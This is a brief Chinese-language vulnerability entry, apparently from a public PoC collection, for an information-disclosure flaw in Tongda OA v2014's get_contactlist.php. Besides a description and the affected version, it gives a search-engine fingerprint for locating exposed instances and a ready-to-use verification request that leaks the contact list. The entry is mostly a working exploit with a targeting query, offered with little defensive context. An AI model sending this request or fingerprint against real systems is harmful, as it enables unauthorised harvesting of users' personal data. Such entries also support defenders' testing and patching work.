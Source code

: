 # 通达OA v2014 get_contactlist.php 敏感信息泄漏漏洞

## 漏洞描述

通达OA v2014 get_contactlist.php文件存在信息泄漏漏洞，攻击者通过漏洞可以获取敏感信息，进一步攻击

## 漏洞影响

<a-checkbox checked>通达OA v2014</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

版本信息

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645975969411-bebd5aae-61d9-427d-bde9-bc31c1375ec3.png)

验证POC

```javascript
/mobile/inc/get_contactlist.php?P=1&KWORD=%25&isuser_info=3
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645975996620-255bce78-f9e5-4542-a2cc-4ba7b35fb50e.png)